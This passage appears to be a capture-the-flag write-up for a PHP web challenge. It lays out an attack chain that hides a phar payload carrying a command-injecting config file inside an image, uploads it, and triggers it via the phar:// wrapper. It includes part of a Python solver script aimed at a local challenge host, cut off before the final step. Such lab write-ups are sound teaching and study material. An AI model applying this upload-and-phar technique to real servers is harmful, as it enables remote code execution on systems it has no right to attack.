 Combining with the file upload from `/addProduct`, if we can insert phar payload containing config file inside a valid image, then we can access the config file back using `phar://` protocol. Bypassing file upload restriction.

Luckily, there's bunch of tutorial on how to create these. One of there can be seen [here](https://ctftime.org/writeup/22612).

## Exploitation

### Attack Chain

To obtain command injection on the server, we need the following step:
- Create config file with command injection in `database` field
- Insert config file into valid image
- Upload image to the server
- Using phar:// protocol for `filename` option in `cli.php`
- Got code execution!

I've made the solver to automate those steps

solve.py
```python
import requests
from bs4 import BeautifulSoup
import subprocess
import logging

HOST = "http://localhost:1337"

logging.basicConfig(level=logging.INFO)

def generate_payload(command):
    try:
        subprocess.run(["php", "-d", "phar.readonly=0", "gen.php", command], check=True)
        return True
    except subprocess.CalledProcessError as e:
        logging.error(f"Failed to generate payload: {e}")
        return False

def upload_product():
    try:
        with open("image.jpg", 'rb') as file:
            files = {"image": file, "title": (None, "Doom"), "description": (None, "got doomed")}
            response = requests.post(HOST + "/addProduct", files=files)
            if response.status_code == 200:
                return True
    except FileNotFoundError:
        logging.error("File not found.")
    except Exception as e:
        logging.error(f"Upload failed: {e}")
    return False

def get_image():
    try:
        response = requests.get(HOST + "/product")
        soup = BeautifulSoup(response.content, 'html.parser')
        cards = soup.find_all('div', class_='card custom-card')
        latest_image_url = None
        for card in cards:
            img_element = card.find('img', class_='card-img-top')
            if img_element:
                latest_image_url = img_element['src']
        return latest_image_url
    except Exception as e:
        logging.error(f"Failed to retrieve image: {e}")
```